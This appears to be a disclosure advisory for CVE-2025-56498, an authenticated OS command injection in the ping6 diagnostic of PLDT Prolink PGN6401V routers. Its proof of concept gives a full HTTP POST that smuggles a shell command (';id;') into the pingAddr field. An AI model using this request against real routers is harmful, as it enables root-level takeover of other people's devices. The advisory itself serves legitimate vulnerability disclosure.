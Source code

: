 # CVE-2025-56498: OS Command Injection in PLDT Prolink PGN6401V Router

## Basic Information

| **Field** | **Value** |
| :--- | :--- |
| **CVE ID** | [CVE-2025-56498](https://www.cve.org/CVERecord?id=CVE-2025-56498) |
| **Title** | OS Command Injection in `ping6.asp` via `pingAddr` parameter |
| **Vendor** | PLDT / Prolink |
| **Product** | PLDT WiFi Router (Prolink PGN6401V) |
| **Affected Version** | Firmware V8.1.2 (other versions likely affected) |
| **Vulnerability Type** | CWE-78: OS Command Injection |
| **Impact** | Remote Code Execution (RCE) with root privileges |
| **CVSS Score** | Pending NVD Analysis |
| **Discoverer** | Jorge Patrick S. Rubio |

## Overview
An OS command injection vulnerability has been identified in the web management interface of the PLDT-supplied Prolink PGN6401V WiFi router. The vulnerability allows an authenticated attacker to execute arbitrary system commands with the highest privileges (`root`), leading to a complete compromise of the device.

## Vulnerability Details
The vulnerability resides in the IPv6 diagnostic utility of the router's web interface. The `ping6.asp` page submits user-controlled input from the `pingAddr` parameter via a POST request to `/boaform/formPing6`. This input is not properly sanitized before being passed to a system shell command, allowing for injection of arbitrary commands using shell metacharacters.

*   **Affected Component:** `ping6.asp` page and the `/boaform/formPing6` form handler.
*   **Vulnerable Parameter:** `pingAddr`
*   **Web Server:** Boa/0.93.15

## Proof of Concept (PoC)
An authenticated attacker can send a crafted HTTP POST request to exploit this vulnerability.

**Request:**
```http
POST /boaform/formPing6 HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Cookie: [VALID_ADMIN_SESSION_COOKIE]
Content-Length: 87

pingAddr=192.168.1.1%3Bid%3B&wanif=65535&go=+Go&submit-url=%2Fping6.asp

## References
- [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)  
- [OWASP: Command Injection](https://owasp.org/www-community/attacks/Command_Injection)  
- [PortSwigger Web Security Academy: OS Command Injection](https://portswigger.net/web-security/os-command-injection)  
